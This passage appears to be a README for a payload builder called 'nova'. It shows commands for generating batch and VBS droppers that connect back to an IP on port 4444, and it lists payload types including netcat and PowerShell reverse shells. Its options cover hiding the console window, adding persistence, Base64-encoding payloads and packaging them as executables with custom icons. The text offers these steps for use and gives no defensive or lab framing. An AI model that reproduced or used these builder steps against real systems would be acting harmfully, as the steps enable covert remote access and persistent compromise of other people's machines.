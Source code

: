 ### 4. Generate Droppers
```bash
# Batch file dropper
python builder.py --type batch --ip 192.168.1.100 --port 4444 --output dropper

# VBS dropper
python builder.py --type vbs --ip 192.168.1.100 --port 4444 --output dropper
```

## Command Line Options

### Required Arguments
- `--type`: Payload type (`python`, `netcat`, `powershell`, `batch`, `vbs`)
- `--ip`: Server IP address
- `--port`: Server port number

### Optional Arguments
- `--output`: Output filename (default: 'client')
- `--build-exe`: Build executable with PyInstaller (Python only)
- `--hide-console`: Hide console window (Python/EXE only)
- `--persistence`: Add persistence mechanisms (Python only)
- `--encode`: Base64 encode payload (PowerShell only)
- `--icon`: Icon file for executable (EXE only)

## Output Structure

The builder creates the following directory structure:

```
nova/
├── builder.py
├── payloads/
│   ├── client.py          # Generated Python client
│   ├── client.exe         # Built executable
│   ├── psrevshell.ps1     # PowerShell script
│   ├── dropper.bat        # Batch dropper
│   ├── dropper.vbs        # VBS dropper
│   └── payload_info_*.json # Generation metadata
├── build/                 # PyInstaller build files
└── templates/            # Template storage
```

## Prerequisites

### For Python to EXE Building
```bash
# Install PyInstaller
pip install pyinstaller

# Optional: Install UPX for compression
# Download from https://upx.github.io/
```
